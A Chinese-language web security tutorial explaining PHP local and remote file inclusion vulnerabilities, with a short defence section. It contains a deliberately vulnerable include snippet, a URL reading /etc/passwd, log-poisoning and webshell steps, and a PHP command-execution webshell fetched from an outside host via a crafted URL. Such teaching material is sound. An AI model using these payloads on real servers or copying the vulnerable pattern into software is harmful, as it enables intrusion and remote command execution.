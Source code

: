 **目录**

[文件包含漏洞成因](#t0 "文件包含漏洞成因")

[为什么要包含文件？](#t1 "为什么要包含文件？")

[如何利用这个漏洞？](#t2 "如何利用这个漏洞？")

[本地包含](#t3 "本地包含")

[远程包含](#t4 "远程包含")

[文件包含漏洞的防御](#t5 "文件包含漏洞的防御")

* * *

文件包含漏洞成因
--------

**文件包含漏洞**是代码注入的一种。其原理就是注入一段用户能控制的脚本或代码，并让服务器端执行，代码注入的典型代表就是文件包含File inclusion。文件包含可能会出现在jsp、php、asp等语言中。但是asp、jsp文件只能本地包含，而php既可以本地包含也可以远程包含。服务器通过函数去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可以去包含一个恶意文件，而我们可以构造这个恶意文件来达到邪恶的目的。常见的文件包含的函数如下  
PHP：include() 、include\_once()、require()、require\_once()、fopen()、readfile()  
JSP/Servlet：ava.io.file()、java.io.filereader()  
ASP：include file、include virtual

*   Include：包含并运行指定文件，当包含外部文件发生错误时，系统给出警告，但整个php文件继续执行。
*   Require：跟include唯一不同的是，当产生错误时候，include会继续运行而require停止运行。
*   Include\_once：这个函数跟include函数作用几乎相同，只是他在导入函数之前先检测下该文件是否被导入。如果已经执行一遍那么就不重复执行了。
*   Require\_once：这个函数跟require函数作用几乎相同，与include\_once和include类似。
*   php.ini配置文件：allow\_url\_fopen=off 即不可以包含远程文件。php4存在远程包含&本地包含，php5仅存在本地包含。

使用上面几个函数包含文件时，该文件将作为PHP代码执行，PHP内核并不在意被包含的文件是什么类型的。也就是说我们用这几个函数包含.jpg文件时，也会将其当做php文件来执行。

**为什么要包含文件？**
-------------

程序员写程序的时候，不喜欢干同样的事情，也不喜欢把同样的代码（比如一些公用的函数）写几次，于是就把需要公用的代码写在一个单独的文件里面，比如 share.php，而后在其它文件需要使用时进行包含调用。在php里，我们就是使用上面列举的那几个函数来达到这个目的的，它的工作流程：如果你想在 main.php里包含share.php,我将这样写 include("share.php") ，然后就可以使用share.php中的函数了，像这个写死需要包含的文件名称的自然没有什么问题，也不会出现漏洞，那么问题到底是出在哪里呢？

有的时候可能并不能确定需要包含哪个文件，比如看下面的代码

```
if ($_GET[page]) {      
    include $_GET[page];      
} else {      
    include "home.php";      
}
```


上面这段代码的使用格式可能是这样的：  
http://hi.baidu.com/m4r10/php/index.php?page=main.php

1、提交上面这个URL，在index.php中就取得这个page的值（$\_GET\[page\]）。  
2、判断$\_GET\[page\]是不是空，若不空（这里是main.php）就用include来包含这个文件。  
3、若$\_GET\[page\]空的话就执行else，来 include "home.php"　这个文件。

你也许要说，这样很好呀，可以按照URL来动态包含文件，多么方便呀，怎么产生漏洞的呢？问题的答案是：我们不乖巧，我们  
总喜欢和别人不一样，我们不会按照他的链接来操作，我们可能想自己写想包含（调用）的文件。比如下面说的！

如何利用这个漏洞？
---------

### 本地包含(LFI)

本地包含条件：

1.  allow\_url\_fopen=On 
2.  用户可以动态控制变量

针对以上代码，比如我们会随便的写入下面这个URL：http: //hi.baidu.com/m4r10/php/index.php?page=hello.php。然后我们的index.php程序就傻傻按照上面我们说得步骤去执行：取page为hello.php，然后去include(hello.php)。。。。这时问题出现了，因为我们并没有hello.php这个文件，所以它 include的时候就会报警告，类似下列信息：

```
Quote:      
Warning: include(hello.php) [function.include]: failed to open stream: No such file or directory in /vhost/wwwroot/php/index.phpon line 3      
Warning: include() [function.include]: Failed opening hello.php for inclusion (include_path=.:) in /vhost/wwwroot/php/index.php on line 3
```


第一行的那个Warning就是找不到我们指定的hello.php文件，也就是包含不到我们指定路径的文件；  
而第二行的警告是因为前面没有找到指定文件，所以包含的时候就出警告了。

通过报错，我们可以得知绝对路径 /vhost/wwwroot/php/  
我们可以多次探测来包含其他文件，比如指定 www.xxx.com/index.php?test=./123.txt，来读出当前路径下的123.txt，也可以使用../来进行目录跳转（在没过滤../的情况下），也可以直接指定绝对路径，读取敏感的系统文件 ，比如 www.xxx.com/index.php?test=/etc/passwd,如果目标主机没有对权限限制的很严格，或者启动Apache的权限比较高，是可以读出这个文件内容的。否则就会得到一个类似于：open\_basedir restriction in effect. 的 Warning。  
如果我们可以上传文件的话，我们可以上传一句话木马，然后再包含一句话木马，再用菜刀连接拿下网站的Webshell

本地文件包含漏洞利用技巧

*   包含用户上传的文件 (我们上传的一句话木马等等)
*   包含data:// 或 php://input 等伪协议
*   包含 Session 文件
*   包含日志文件      （ 通过构造语句让服务器报错并将一句话随报错信息写入日志；找到日志文件路径，包含此文件；用菜刀连接；拿下网站的Webshell ）

### 远程包含(RFI)

远程包含条件：

1.  allow\_url\_include=On
2.  用户可以动态控制变量

我们可以指定其他URL上的一个我们写的一句话木马，然后用菜刀连接获取Webshell。

我们还可以指定其它URL上的一个包含PHP代码的webshell来直接运行，比如，我先写一段运行命令的PHP代码，如下保存为cmd.txt（后缀不重要，只要内容为PHP格式就可以了）。

```
if (get_magic_quotes_gpc())      
{$_REQUEST["cmd"]=stripslashes($_REQUEST["cmd"]);}　//去掉转义字符（可去掉字符串中的反斜线字符）      
ini_set("max_execution_time",0);　//设定针对这个文件的执行时间，0为不限制.      
echo "开始行";　　　　　　 //打印的返回的开始行提示信息      
passthru($_REQUEST["cmd"]);　　　//运行cmd指定的命令      
echo "结束行";　　　　　　 //打印的返回的结束行提示信息      
?>
```


以上这个文件的作用就是接受cmd指定的命令，并调用passthru函数执行，把内容返回在开始行与结束行之间。把这个文件保存到我们主机的服务器上（可以是不支持PHP的主机），只要能通过HTTP访问到就可以了，例如地址如下：http://www.xxx.cn/cmd.txt,然后我们就可以在那个漏洞主机上构造如下URL来利用了：http://hi.baidu.com/m4r10/php/index.php?page=http: //www.xxx.cn/cmd.txt?cmd=ls，其中cmd后面的就是你需要执行的命令，其它常用的命令（以\*UNIX为例）如下：

*   ll 列目录、文件（相当于Windows下dir)
*   pwd 查看当前绝对路径
*   whoami 查看当前用户
*   wget　下载指定URL的文件

文件包含漏洞的防御
---------

在php中，文件包含需要配置 allow\_url\_include=On(远程文件包含)、allow\_url\_fopen=On(本地文件包含) 。所以，我们可以将其关闭，这样就可以杜绝文件包含漏洞了。但是，某些情况下，不能将其关闭，必须进行包含的话，我们可以使用白名单过滤的方法，只能包含我们指定的文件。这样，就可以杜绝文件包含漏洞了。

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

相关链接：[DVWA之File Inclusion(文件包含)](https://blog.csdn.net/qq_36119192/article/details/82915884 "DVWA之File Inclusion(文件包含)")   

                  [原创干货 | ​文件包含漏洞——原理与利用](https://mp.weixin.qq.com/s/VMnU-PttVurV-bswtDd0xg "原创干货 | ​文件包含漏洞——原理与利用")

                  [文件上传漏洞](https://blog.csdn.net/qq_36119192/article/details/82848056 "文件上传漏洞")

                  文件解析漏洞